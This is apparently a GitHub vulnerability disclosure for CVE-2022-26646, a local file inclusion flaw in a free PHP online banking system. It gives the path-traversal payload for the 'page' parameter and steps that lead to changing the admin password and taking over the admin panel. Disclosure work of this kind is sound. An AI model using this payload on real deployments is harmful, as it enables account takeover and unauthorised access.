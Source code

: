 # Tittle: Online Banking System LFI.

## Author: (Erik451)
## Vendor Homepage: [https://www.sourcecodester.com/](https://www.sourcecodester.com/)
## Software Link: [https://www.sourcecodester.com/php/14868/banking-system-using-php-free-source-code.html](https://www.sourcecodester.com/php/14868/banking-system-using-php-free-source-code.html)
## Version: OBS 1.0
## CVE: CVE-2022-26646
-   Description: The parameter "page" includes files. A user can read internal php files of the web. LFI to Privilege Escalation
-   Payload used: `http://web.com/banking/client/?page=<any_phpfile>`

### **Steps to reproduce:**

-  1- Go to [http://localhost/banking/client/?page=../admin/user](http://localhost/banking/client/?page=../admin/user)

![adminpage](https://user-images.githubusercontent.com/47476901/160647789-a20d2830-b673-4d51-b605-80de520cf25f.png)

-   2- Change the admin password

![changepass](https://user-images.githubusercontent.com/47476901/160647853-084108de-0592-4c79-8d3a-f7a1d3692466.png)

- 3- Login as administrator

![login](https://user-images.githubusercontent.com/47476901/160647880-c00a310c-ca03-4fef-839f-0131122ee50d.png)


- 4- Admin panel

![adminpanel](https://user-images.githubusercontent.com/47476901/160647820-d55df39c-9287-4bd5-8214-e10558e8aa09.png)


#### Other Payload:
Reading info.php

![info](https://user-images.githubusercontent.com/47476901/160647867-b7593351-938a-492c-a447-17547aec59f7.png)
